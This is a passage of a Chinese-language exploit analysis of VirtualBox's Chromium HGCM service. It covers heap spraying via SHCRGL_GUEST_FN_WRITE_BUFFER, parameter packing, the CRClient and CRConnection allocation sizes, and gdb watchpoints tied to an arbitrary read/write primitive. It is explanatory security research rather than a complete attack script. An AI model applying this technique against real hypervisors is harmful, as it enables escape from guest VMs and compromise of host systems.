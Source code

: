     # 后面，可以通过这个可控的堆块和泄露的pConn来做任意地址读写了
    gdb-peda$ watch *($conn+0x238)
    Hardware watchpoint 4: *($conn+0x238)
    gdb-peda$ watch *0x00007fbaf5084930
    Hardware watchpoint 5: *0x00007fbaf5084930

    ```

## 3. EXP分析

- Heap Spray

    ```c
    alloc_buf(client,sz,msg='a') => hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0,sz,0,msg])
    //参数pack方式：
    // int => pack("<IIQ", intType, gparam, 0) 整数加密成IIQ
    // other => pack("<IIQ", addrType, len(gparam), addressof(gparam)) + len(gparam) 地址加密成IIQ+长度
    => svcCall(SHCRGL_GUEST_FN_WRITE_BUFFER):
    	pBuffer = msg.addr;
    	iBuffer = 0;
    	offset = 0;
    	msgSize = msg.size;
    	// 申请2个堆块;拷贝msg到新生成的CRVBOXSVCBUFFER_t中
    	pSvcBuffer = svcGetBuffer(iBuffer, sz); => buf=malloc(sizeof(CRVBOXSVCBUFFER_t)); buf->pData = malloc(sz);return buf;
    	memcpy(pSrvBuffer->pData+offset, pBuffer, msgSize);
    	paParms[0].u.uint32 = pSvcBuffer->uiId; //返回uid

    eg:
    alloc_buf(client, 0x290): 生成buf= new CRVBOXSVCBUFFER_t(.pData=malloc(0x290));buf.pData <= 'a'

    typedef struct _CRVBOXSVCBUFFER_t {
        uint32_t uiId;
        uint32_t uiSize;
        void*    pData;
        _CRVBOXSVCBUFFER_t *pNext, *pPrev;
    } CRVBOXSVCBUFFER_t;
    ```

- Alloc Client&Connection

    ```c
    static DECLCALLBACK(int) svcConnect (void *, uint32_t u32ClientID, void *pvClient)
    {
    	int rc = crVBoxServerAddClient(u32ClientID);
    	return rc;
    }
    int32_t crVBoxServerAddClient(uint32_t u32ClientID)
    {
    	CRClient *newClient = crCalloc(sizeof(CRClient));// [HERE] CRClient (0x9d0)
    	newClinet->conn = crNetAcceptClient(cr_server.protocol, NULL,
                                            cr_server.tcpip_port,
                                            cr_server.mtu, 0);
    	crServerAddToRunQueue(newClient);
    }
    CRConnection *
    crNetAcceptClient( const char *protocol, const char *hostname,
                                         unsigned short port, unsigned int mtu, int broker )
    {
    	CRConnection *conn = crCalloc(sizeof(*conn));// [HERE] CRConnection (0x298)
    	...
    	return conn;
    }
    svcConnect => crVBoxServerAddClient : crCalloc(sizeof(CRClient))